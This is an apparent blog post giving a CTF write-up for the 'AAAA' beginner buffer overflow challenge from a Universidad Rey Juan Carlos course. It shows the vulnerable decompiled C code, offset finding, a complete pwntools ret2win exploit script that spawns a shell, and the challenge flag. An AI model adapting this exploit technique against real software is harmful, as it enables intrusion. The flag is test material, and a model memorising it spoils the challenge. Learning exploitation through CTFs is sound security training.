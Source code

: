 ```yaml
---
title: "'AAAA' Challenge Writeup: Buffer Overflow Basics from URJC CTF Course"
layout: post
author: Jorge Moreno
---
```

This challenge is part of an introductory CTF course organized by students of Universidad Rey Juan Carlos.

## Challenge Description
---

> ¡Ups! Parece que me he olvidado una opción que no debería aparecer en el programa que he creado como cliente de correo. Menos mal que es super seguro, ¿a que sí?
> 
> 
> Autor: [David Billhardt](https://twitter.com/t0ct0u)
> 
> Official Writeup: [AAAA.pdf](images/beginner-bof-wu/AAAA.pdf)
> 

## TL;DR

---

This challenge is an standard ret2win. We overflow the buffer into overriding the RIP and jumping to the win function to spawn a shell.

## Challenge Solution

---

First thing we are going to do is analyze the file with the ``file`` and ``checksec`` commands:

![Untitled](images/beginner-bof-wu/Untitled.png)

![Untitled](images/beginner-bof-wu/Untitled%201.png)

As we can see the only relevant restriction this binary has is the No eXecute bit. Which disallows us to execute any shellcode inside the stack.

After analyzing the different functions the program we see that it is a binary that shows us a menu to log in, print the name of the user, and send a message. After the decompilation we can see 2 important things:

- A function ``rce()`` that spawns a shell

```c
void rce(void){
		system("bin/sh");
		return;
}
```

- And the function ``enviar()`` that sends a message to an specific user

```c
void enviar(void)

{
  undefined message [208];
  undefined name [32];
  
  printf(&DAT_004020e0); // Prompts for the name
  __isoc99_scanf(&%20s,name);
  puts(&DAT_00402108); // Prompts for the message
  __isoc99_scanf("%s",message);
  printf("Mensaje enviado a %s",name);
  return;
}
```

The first ``scanf()`` only receives up to 20 characters, but the second one has no limit so it is vulnerable to **Buffer Overflow**. We are going to test this by sending to the program a bunch of A’s.

![Untitled](images/beginner-bof-wu/Untitled%202.png)

The program crashes because we overflow the buffer up to the RSP so after the ``ret;`` instruction it tries to jump into the address ``0x6161616161616161 (AAAAAAAA)``.

We are going to use pwndbg’s ``cyclic`` command to get the offset and override the first rsp bytes with the address of the ``rce()`` function.

![Untitled](images/beginner-bof-wu/Untitled%203.png)

![Untitled](images/beginner-bof-wu/Untitled%204.png)

Then we need to get the address of the ``rce()`` function. We can do this with pwntools.

![Untitled](images/beginner-bof-wu/Untitled%205.png)

Full script:

```python
#!/usr/bin/python3

from pwn import *

exe = context.binary = ELF(args.EXE or './AAAA', checksec = False)

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

offset = 248
rce_addr = exe.symbols.rce
ret = 0x000000000040101a # For stack aligning purposes

io = start()

payload = b"A" * offset
payload += flat(ret)
payload += flat(rce_addr)

io.sendlineafter(b'>', b'3') # Option
io.sendlineafter(b'>', b'a') # Name
io.recvline() # We do this because the prompt has a special character that pwntools doesn't work well with.
io.sendline(payload) # Payload

io.interactive()
```



**FLAG -- HackOn{c0MM0n_ret2wIN_1s_ez}**